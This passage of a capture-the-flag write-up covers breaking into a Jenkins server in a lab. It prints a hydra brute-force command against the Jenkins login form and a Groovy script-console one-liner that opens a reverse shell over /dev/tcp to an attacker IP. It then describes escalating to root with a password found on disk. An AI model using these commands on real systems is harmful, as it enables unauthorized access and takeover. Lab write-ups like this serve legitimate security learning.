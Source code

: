 #### Jenkins Brute-Force

I opted to brute force Jenkins login with `hydra`. Hydra has support for login forms using the `http-post-form` option. In order for this to work, the headers for a login attempt need to be passed to Hydra. By sending a normal login attempt and checking the headers, we can determine what needs to be filled in. Then, we can run the following `hydra` command to brute-force the login. 

`hydra -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/j_acegi_security_check:j_username=admin&j_password=admin&from=%2F&Submit=Sign+in:Invalid username or password.`

After running the command, `hydra` successfully reveals the Jenkins login password.

#### Jenkins Exploitation

Once we've logged in to Jenkins, we can use the script console that is built-in to get a root shell. By navigating to the Admin panel and loading the script console, we can provide a specific command to get a simple TCP reverse shell running.

`r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.54.151/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()`

This gives us the Jenkins user, which we can use to poke around the file system a bit more. 

#### Root Access

Looking in `/opt` again, we find the password for the root user in another text file. SSH'ing into this user gives us the `/root` directory access, which contains the root flag text file.

# Conclusion

This was a really fun challenge, and definitely required me to flex my brain a lot. I picked up a lot of new tricks to use when evaluating web services, and look forward to putting them to good use.
